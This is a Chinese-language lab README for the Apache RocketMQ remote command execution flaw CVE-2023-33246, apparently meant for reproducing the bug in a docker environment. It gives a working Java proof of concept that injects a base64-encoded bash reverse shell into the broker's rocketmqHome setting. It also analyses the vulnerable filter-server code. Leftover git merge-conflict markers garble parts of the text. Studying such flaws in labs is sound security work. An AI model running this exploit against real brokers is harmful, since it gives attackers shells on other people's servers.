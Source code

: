 # Apache RocketMQ RCE (CVE-2023-33246)

<<<<<<< Updated upstream
=======
Apache RocketMQ是一个分布式消息平台。

在其5.1.0版本及以前存在一处命令执行漏洞，攻击者通过向其更新配置相关的功能发送指令即可更新任意配置项，并通过配置项中存在的命令注入功能执行任意命令。

参考链接：

- <https://lists.apache.org/thread/1s8j2c8kogthtpv3060yddk03zq0pxyp>
- <https://github.com/I5N0rth/CVE-2023-33246>

>>>>>>> Stashed changes
## 启动

使用`docker compose`或`docker-compose`启动

```shell
<<<<<<< Updated upstream
docker-compose up -d
=======
docker compose up -d
>>>>>>> Stashed changes
```

## PoC

使用`IDEA`或`Eclipse`等`IDE`新建一个`Maven`项目，导入依赖：

```xml
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
        <groupId>org.apache.rocketmq</groupId>
        <artifactId>rocketmq-tools</artifactId>
        <version>5.1.0</version>
    </dependency>
</dependencies>
```

PoC如下：

```java
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

import java.util.Base64;
import java.util.Properties;

public class Main {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }

    public static void main(String[] args) throws Exception {
        String targetHost = "192.168.227.128";
        String targetPort = "10911";

        String shellHost = "192.168.227.128";
        String shellPort = "12345";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```

在控制台成功输出新的配置后，请等待30秒左右，将会收到反连请求：

![](screenshot.png)

## 简单分析

为什么要修改`filterServerNums`属性：如果配置的`filterServerNums`为0，计算得出的`more`也会是0，因此无法进入`callShell`方法执行命令。

```java
public void createFilterServer() {
    int more =
        this.brokerController.getBrokerConfig().getFilterServerNums() -
        this.filterServerTable.size();
    String cmd = this.buildStartCommand();
    for (int i = 0; i < more; i++) {
        FilterServerUtil.callShell(cmd, log);
    }
}

public static void callShell(final String shellString, final Logger log) {
    Process process = null;
    try {
        String[] cmdArray = splitShellString(shellString);
        process = Runtime.getRuntime().exec(cmdArray);
        process.waitFor();
        log.info("CallShell: <{}> OK", shellString);
    } catch (Throwable e) {
        log.error("CallShell: readLine IOException, {}", shellString, e);
    } finally {
        if (null != process)
            process.destroy();
    }
}
```

为什么要修改`rocketmqHome`属性：在构建命令的时候，最终会调用`splitShellString`方法按照空格对参数进行分割，所以不可以是`NamesrvAddr`参数，只能是开头的`rocketmqHome`参数，但是由于参数分割规则，所以需要更严格的命令和巧妙的技巧才可以执行。

```java
private String buildStartCommand() {
    String config = "";
    if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
        config = String.format("-c %s",
        BrokerStartup.CONFIG_FILE_HELPER.getFile());
    }
    if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
        config += String.format(" -n %s",
        this.brokerController.getBrokerConfig().getNamesrvAddr());
    }
    if (NetworkUtil.isWindowsPlatform()) {
        return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    } else {
        return String.format("sh %s/bin/startfsrv.sh %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    }
}
```
